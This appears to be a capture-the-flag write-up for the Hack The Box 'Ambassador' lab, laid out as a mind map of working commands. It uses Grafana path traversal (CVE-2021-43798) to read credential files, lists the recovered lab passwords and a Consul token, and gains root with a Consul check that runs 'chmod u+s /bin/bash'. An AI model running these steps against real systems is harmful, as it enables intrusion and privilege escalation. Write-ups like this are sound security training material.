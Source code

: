 ```yaml
---
title: "Hack The Box - Ambassador [Medium]"
category: ctf-writeup
layout: post
---
```


<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title>Markmap</title>
<style>
* {
  margin: 0;
  padding: 0;
}
#mindmap {
  display: block;
  width: 100vw;
  height: 100vh;
}
</style>
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@highlightjs/cdn-assets@11.8.0/styles/default.min.css"><link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/style.css">
</head>
<body>
<svg id="mindmap"></svg>
<script src="https://cdn.jsdelivr.net/npm/d3@7.8.5/dist/d3.min.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-view@0.15.3/dist/browser/index.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/index.js"></script><script>(r => {
                setTimeout(r);
              })(() => {
  const {
    markmap,
    mm
  } = window;
  const {
    el
  } = markmap.Toolbar.create(mm);
  el.setAttribute('style', 'position:absolute;bottom:20px;right:20px');
  document.body.append(el);
})</script><script>((getMarkmap, getOptions, root, jsonOptions) => {
          const markmap = getMarkmap();
          window.mm = markmap.Markmap.create('svg#mindmap', (getOptions || markmap.deriveOptions)(jsonOptions), root);
        })(() => window.markmap,null,{"type":"heading","depth":0,"payload":{"lines":[0,1]},"content":"Ambassador","children":[{"type":"heading","depth":1,"payload":{"lines":[2,3]},"content":"PORTS","children":[{"type":"heading","depth":2,"payload":{"lines":[4,5]},"content":"TCP","children":[{"type":"list_item","depth":3,"payload":{"lines":[6,7]},"content":"Discovered open port 3306/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[7,8]},"content":"MySQL 8.0.30-0ubuntu0.20.04.2","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[8,9]},"content":"Discovered open port 80/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[9,10]},"content":"Hugo 0.94.2","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[10,11]},"content":"http-title: Ambassador Development Server","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[11,12]},"content":"Discovered open port 22/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[12,13]},"content":"OpenSSH 8.2p1 Ubuntu 4ubuntu0.5","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[13,14]},"content":"Discovered open port 3000/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[14,15]},"content":"HTTP/1.0 302 Found","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[16,17]},"content":"UDP","children":[{"type":"list_item","depth":3,"payload":{"lines":[18,19]},"content":"None","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[20,21]},"content":"HTTP 10.10.11.183:80","children":[{"type":"heading","depth":2,"payload":{"lines":[24,25]},"content":"Content","children":[{"type":"list_item","depth":3,"payload":{"lines":[28,29]},"content":"user: <code>developer</code>","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[31,32]},"content":"HTTP 10.10.11.183:3000","children":[{"type":"heading","depth":2,"payload":{"lines":[35,36]},"content":"Content","children":[{"type":"heading","depth":3,"payload":{"lines":[37,38]},"content":"Unauthorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[38,39]},"content":"Grafana[8.2.0]","children":[]}]},{"type":"heading","depth":3,"payload":{"lines":[40,41]},"content":"Authorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[42,43]},"content":"Data Source - <code>mysql.yml</code>","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[44,45]},"content":"Login","children":[{"type":"heading","depth":3,"payload":{"lines":[46,47]},"content":"<code>admin:messageInABottle685427</code>","children":[]}]},{"type":"heading","depth":2,"payload":{"lines":[48,49]},"content":"CVEs","children":[{"type":"heading","depth":3,"payload":{"lines":[50,51]},"content":"CVE-2021-43798 *","children":[{"type":"fence","depth":4,"content":"<pre><code><span class=\"hljs-symbol\">developer:</span><span class=\"hljs-symbol\">x:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:developer</span><span class=\"hljs-symbol\">:/home/developer</span><span class=\"hljs-symbol\">:/bin/bash</span>\n</code></pre>\n","children":[],"payload":{"lines":[52,55]}},{"type":"bullet_list","depth":4,"payload":{"lines":[56,63]},"content":"","children":[{"type":"list_item","depth":5,"payload":{"lines":[56,57]},"content":"<code>/var/lib/grafana/grafana.db</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[57,58]},"content":"<code>/etc/mysql/mysql.conf.d/mysqld.cnf</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[58,59]},"content":"<code>/etc/grafana/grafana.ini</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[59,60]},"content":"<code>admin_password = messageInABottle685427</code>","children":[]}]},{"type":"list_item","depth":5,"payload":{"lines":[60,61]},"content":"<code>/etc/grafana/provisioning/datasources/mysql.yml</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[61,62]},"content":"<code>grafana:dontStandSoCloseToMe63221!</code>","children":[]}]}]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[63,64]},"content":"DB 3306","children":[{"type":"list_item","depth":2,"payload":{"lines":[67,68]},"content":"<code>use whackywidget; -&gt; select * from users; -&gt; developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[68,69]},"content":"<code>anEnglishManInNewYork027468</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[69,70]},"content":"userFlag","children":[]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[71,72]},"content":"SSH 22","children":[{"type":"list_item","depth":2,"payload":{"lines":[75,76],"index":1},"content":"1. Files on the System","children":[{"type":"list_item","depth":3,"payload":{"lines":[76,77]},"content":"<code>/home/developer/.gitconfig</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[77,78]},"content":"<code>/opt/my-app/</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[78,79]},"content":"<code>/opt/my-app/put-config-in-consul.sh</code>","children":[{"type":"list_item","depth":5,"payload":{"lines":[79,80]},"content":"<code>consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD</code>","children":[]}]}]},{"type":"list_item","depth":3,"payload":{"lines":[80,81]},"content":"<code>/home/developer/.profile</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[81,82]},"content":"<code>/home/developer/.bash_history</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[82,83]},"content":"<code>/root/</code> ?","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[83,84]},"content":"<code>consul</code> *","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[84,85]},"content":"<code>/opt/consul/raft/raft.db</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[85,86]},"content":"<code>/development-machine-documentation/*</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[86,87]},"content":"<code>/development-machine-documentation/deploy.sh</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[87,88]},"content":"<code>/opt/my-app/whackywidget/put-config-in-consul.sh</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[88,89],"index":2},"content":"2. Installed Applications","children":[{"type":"list_item","depth":3,"payload":{"lines":[89,90]},"content":"consul","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[90,91],"index":3},"content":"3. Network","children":[{"type":"list_item","depth":3,"payload":{"lines":[91,92]},"content":"tcp 127.0.0.1:8300","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[92,93]},"content":"tcp 127.0.0.1:8301","children":[{"type":"list_item","depth":4,"payload":{"lines":[93,94]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[94,95]},"content":"tcp 127.0.0.1:8302","children":[{"type":"list_item","depth":4,"payload":{"lines":[95,96]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[96,97]},"content":"tcp 127.0.0.1:8500","children":[{"type":"list_item","depth":4,"payload":{"lines":[97,98]},"content":"Consul UI","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[98,99]},"content":"Content: <code>Consul Agent: UI disabled. To enable, set ui_config.enabled=true in the agent configuration and restart</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[99,100]},"content":"tcp 127.0.0.1:8600","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[100,101]},"content":"tcp 127.0.0.1:3306","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[101,102],"index":4},"content":"4. Running Processes","children":[{"type":"list_item","depth":3,"payload":{"lines":[102,103]},"content":"<code>/usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[103,104],"index":5},"content":"5. Scheduled Jobs/Tasks","children":[{"type":"list_item","depth":3,"payload":{"lines":[104,105]},"content":"<code>find /etc/consul.d/config.d/* -mmin +10 -delete</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[105,106],"index":6},"content":"6. System","children":[{"type":"list_item","depth":3,"payload":{"lines":[106,107]},"content":"Sudo version 1.8.31","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[107,108]},"content":"PermitRootLogin yes","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[109,110]},"content":"Consul Research","children":[{"type":"list_item","depth":2,"payload":{"lines":[111,112]},"content":"https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[112,113]},"content":"https://developer.hashicorp.com/consul/docs/services/usage/checks","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[113,114]},"content":"https://developer.hashicorp.com/consul/commands/exec","children":[]}]},{"type":"heading","depth":1,"payload":{"lines":[115,116]},"content":"Root","children":[{"type":"list_item","depth":2,"payload":{"lines":[116,117]},"content":"<code>export CONSUL_HTTP_TOKEN=bb03b43b-1d81-d62b-24b5-39540ee469b5</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[117,118]},"content":"<code>consul catalog nodes</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[118,119]},"content":"<code>ambassador 27361fb5-583a-5db0-27bf-ecfed7b4b669 127.0.0.1 dc1 lan=127.0.0.1, lan_ipv4=127.0.0.1, wan=127.0.0.1, wan_ipv4=127.0.0.1 consul-network-segment=</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[119,120]},"content":"<code>find / -type d -writable 2&gt;/dev/null</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[120,121]},"content":"<code>/etc/consul.d/config.d</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[121,122]},"content":"<code>touch /etc/consul.d/config.d/syl.hcl</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[122,137]},"content":"<pre><code class=\"language-hcl\">service {\n    name = &quot;dummy-service&quot;\n    id   = &quot;dummy-service-1&quot;\n    port = 8080\n\n    check = {\n        id = &quot;mem-util&quot;\n        name = &quot;Memory utilization&quot;\n        args = [&quot;chmod&quot;, &quot;u+s&quot;, &quot;/bin/bash&quot;]\n        interval = &quot;10s&quot;\n        timeout = &quot;1s&quot;\n    }\n}\n</code></pre>\n","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[137,138]},"content":"<code>consul reload</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[138,139]},"content":"<code>/bin/bash -p</code>","children":[]}]}]},{})</script>
</body>
</html>
